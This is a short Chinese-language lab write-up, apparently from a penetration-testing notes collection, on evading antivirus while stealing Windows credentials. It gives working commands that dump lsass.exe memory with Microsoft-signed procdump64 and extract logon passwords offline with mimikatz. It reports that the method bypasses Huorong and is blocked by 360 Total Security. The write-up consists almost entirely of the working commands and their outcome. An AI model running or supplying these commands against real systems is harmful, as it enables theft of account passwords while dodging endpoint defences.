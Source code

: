 ### 结论
能过火绒（此时的最新版v5.0.61.1）  
不能过360安全卫士（此时的最新版v13）

### 0x00 基本原理
利用procdump是微软签名的程序，自带免杀性  
这里要注意：需要使用64位的procdump以及64位的mimikatz

### 0x01 过火绒过程记录
受害虚拟机：Windows 2008 R2安装火绒  
上传procdump64.exe到受害机后执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
提取进程lsass.exe的内存到文件lsass.dmp中，如下图  
![image](./pic/0.png)  
下载提取到的lsass.dmp到攻击机的64位mimikatz目录下，执行命令
```
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```
成功解密出密码，如下图  
![image](./pic/1.png)  

### 0x02 过360安全卫士过程记录
受害虚拟机：Windows 2008 R2安装360安全卫士  
执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
会被拦截，如下图  
![image](./pic/2.png)  
